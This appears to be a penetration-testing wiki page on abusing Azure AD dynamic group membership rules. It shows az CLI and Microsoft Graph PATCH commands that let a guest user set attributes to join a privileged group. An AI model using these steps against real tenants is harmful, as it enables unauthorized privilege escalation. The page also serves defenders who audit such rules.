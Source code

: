 # Az - Dynamic Groups Privesc

## Basic Information

**Dynamic groups** are groups that has a set of **rules** configured and all the **users or devices** that match the rules are added to the group. Every time a user or device **attribute** is **changed**, dynamic rules are **rechecked**. And when a **new rule** is **created** all devices and users are **checked**.

Dynamic groups can have **Azure RBAC roles assigned** to them, but it's **not possible** to add **AzureAD roles** to dynamic groups.

This feature requires Azure AD premium P1 license.

## Privesc

Note that by default any user can invite guests in Azure AD, so, If a dynamic group **rule** gives **permissions** to users based on **attributes** that can be **set** in a new **guest**, it's possible to **create a guest** with this attributes and **escalate privileges**. It's also possible for a guest to manage his own profile and change these attributes.

Get groups that allow Dynamic membership: **`az ad group list --query "[?contains(groupTypes, 'DynamicMembership')]" --output table`**

### Example

- **Rule example**: `(user.otherMails -any (_ -contains "security")) -and (user.userType -eq "guest")`
- **Rule description**: Any Guest user with a secondary email with the string 'security' will be added to the group

For the Guest user email, accept the invitation and check the current settings of **that user** in [https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView](https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView).\
Unfortunately the page doesn't allow to modify the attribute values so we need to use the API:

```bash
# Login with the gust user
az login --allow-no-subscriptions

# Get user object ID
az ad signed-in-user show

# Update otherMails
az rest --method PATCH \
  --url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
  --headers 'Content-Type=application/json' \
  --body '{"otherMails": ["newemail@example.com", "anotheremail@example.com"]}'

# Verify the update
az rest --method GET \
  --url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
  --query "otherMails"
```

## References

- [https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/](https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/)

